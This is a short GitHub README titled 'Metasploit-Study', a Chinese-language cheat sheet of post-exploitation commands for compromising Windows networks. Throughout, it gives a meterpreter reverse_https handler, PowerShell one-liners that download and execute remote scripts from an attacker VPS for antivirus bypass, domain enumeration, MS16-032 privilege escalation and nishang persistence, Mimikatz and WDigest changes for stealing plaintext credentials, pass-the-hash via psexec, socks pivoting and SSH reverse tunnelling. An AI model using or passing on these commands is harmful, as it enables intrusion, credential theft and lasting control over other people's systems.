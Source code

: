 # Metasploit-Study
心得

1、启动console
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set lhost 121.xx.xx.43;set lport 5555;exploit -j"


2、过杀软
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/https.ps1')


3、域探测
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/PowerView.ps1');Invoke-UserHunter"


4、提权
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.3.101/doc/16-032.ps1');Invoke-MS16-032 -Application C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -Commandline ' -nop -exec bypass .\1.ps1'"


5、下载文件
powershell (new-object System.Net.WebClient).DownloadFile('http:/http://121.43.xx.xx:8888/wce.exe,‘wce.exe')


6、抓明文（windows 2008 R2 后需修改注册表项 use post/windows/manage/wdigest_caching）或者 reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

7、mimikatz
powershell.exe  -nop -exec bypass  -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"
或者
meterpreter load mimikatz

8、hash传递登录
 use exploit/windows/smb/psexec_psh
 
 
9、添加路由
post/multi/manage/autoroute


10、proxychains socks 代理
use auxiliary/server/socks4a


11、持久化nishang
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/Add-Persistence.ps1');Add-Persistence -PayloadURL http://121.xx.xx.43:8888/https5555.ps1"

12、通过VPS SSH隧道使用本地msf
ssh -qTfnN -R 5555:192.168.2.100:5555 root@121.xx.xx.43
远程vps 需开启：
vi /etc/ssh/sshd_config
gatewayports yes
